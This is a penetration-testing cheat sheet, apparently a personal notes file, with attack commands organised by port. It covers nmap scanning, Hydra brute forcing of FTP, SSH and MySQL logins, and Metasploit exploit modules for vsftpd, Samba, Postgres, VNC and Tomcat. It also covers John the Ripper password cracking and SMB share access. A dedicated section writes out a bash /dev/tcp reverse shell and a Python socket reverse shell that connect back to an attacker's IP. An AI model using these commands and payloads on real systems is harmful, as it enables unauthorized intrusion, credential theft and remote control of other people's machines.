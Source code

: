 #### Nmap

 nmap -Pn -sV Target
 
 nmap -sV -sC 10.10.91.172 -Pn

 nmap -sC -sT Target   (TCP SCAN)

 nmap -A Target (Aggressive scan)

 nmap -sV Tagert -oX scan.xml (For xml)

 nmap -sV Tagert -oN scan (Normal/txt format)

##### Full TCP SCAN
nmap -Pn -iL myip.txt -sV -A -sC -O -p 0-65535 --min-rate 1000 --max-retries 2 -vv -oX myip.xml

##### Full UDP SCAN
nmap -sU --top-ports 1000 -iL myip.txt -oX myip_udp.xml

###### Open Nmap XML file
 
Paste the below code and save it as script.vba. Then open it, your internet explorer will open.

 CreateObject("InternetExplorer.Application").Visible=true

#### Kali Commands
sudo -l (To check all the permissions provided to the current user after using sudo command)
 
curl -X POST http://165.227.106.113/post.php -d "username=admin&password=71urlkufpsdnlkadsf"

curl -H "User-Agent: Sup3rS3cr3tAg3nt" http://165.227.106.113/header.php

curl -H "User-Agent: Sup3rS3cr3tAg3nt" -H "Referer:awesomesauce.com" http://165.227.106.113/header.php

 #### Searchsploit

 searchsploit service version
 
 searchsploit -m number_of_the_exploit(like 42233)
 
 Go to the directory where it is downloaded it would be the same directory.

 open it, cat 42233.txt and read it.

 


### Port 21
#### Hydra

sudo hydra -L user.txt -P pass.txt target ftp   ----> FTP

#### Vsftpd Exploit

In msfconsole

search vsftpd version

use exploit/unix/ftp/
show options
set RHOSTS ip
exploit

### Port 22

#### Hydra

hydra -L user.txt -P pass.txt 192.168.1.103 ssh

#### SSH BFA
use **auxiliary/scanner/ssh/ssh_login**
show options

set RHOSTS ip

set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt

or 

set USER_FILE /usr/share/user.txt
set PASS_FILE /usr/share/pass.txt

or 

**set STOP_ON_SUCCESS true**

set VERBOSE true

exploit

If sessions opened type
sessions
sessions 1 or 2 or whatever the shell opened is or sessions -u 1 or 2
shell (For better view type shell, it will look like linux)

Connect: ssh username@ip

### Port 139 & 445 (Samba)

use **exploit/multi/samba/usermap_script**

show options

set RHOSTS ip

exploit

id , uname -a, python -c 'import pty:pty.spawn("/bin/bash")'

#### Connect to SMB (View Shares)

smbclient -L \\10.10.101.175 or smbclient -L 10.10.101.175

smbclient //10.10.101.175/anonymous

ls

get log.txt

smbclient //10.10.61.86/milesdyson -U milesdyson  (Login to smb)

#### John The Ripper command

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 hash

#### Reverse Shell
```
nc -lvp 8080

bash -c 'bash -i >& /dev/tcp/10.10.210.158/8080 0>&1' (10.10.210.158 is attacker's ip and this line is executed in vuln. website)
```
```
nc -lvp 1234

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.10.207.168”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]); (Python code for reverse shell)
```

#### Hydra Commands

hydra -l username -P passwordlist.txt ssh://target_ip

hydra -L userlist.txt -P passwordlist.txt ftp://target_ip

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.76 ssh


### Base32 and 64 Decode

echo "KBQWY4DONAQHE53UOJ5CA2LXOQQEQSCBEBZHIZ3JPB2XQ4TQNF2CA5LEM4QHEYLKORUC4===" | base32 -d


### Port  5432 (Postgres)
```
search postgres
use **exploit/linux/postgres/postgres_payload**
set RHOSTS ip
set LHOST ip
run
sessions -u 1 or 2 or whichever
```
### Port 5900 (VNC)

use **auxiliary/scanner/vnc/vnc_login**
set RHOSTS
exploit

after getting password go to terminal

vncviewer vulnerable_ip

For authorized ssh keys after login:
cd root
ls -la
cd .ssh
ls -la
cat authorized_keys

### Port 8180 (Not default port) (Tomcat)

use exploit/multi/http/tomcat_mgr_upload

show options

set RHOSTS

set RPORT 8180

set HttpUsername tomcat

set HttpPassword tomcat

### Port 3389

xfreerdp /u:wade /p:parzival /v:10.10.167.18  (Connect using Linux)

### Port 3306

hydra -L usernames.txt -P passwords.txt 192.168.1.100 mysql

mysql -h example.com -u root -p

### Nessus

nessus ( command /bin/systemctl start nessusd.service, the go to https://localhost:8834/#/ and login, root, Root@123 in windows)

#### For Windows

Start

C:\Windows\system32>net start "Tenable Nessus"

Stop	

C:\Windows\system32>net stop "Tenable Nessus"
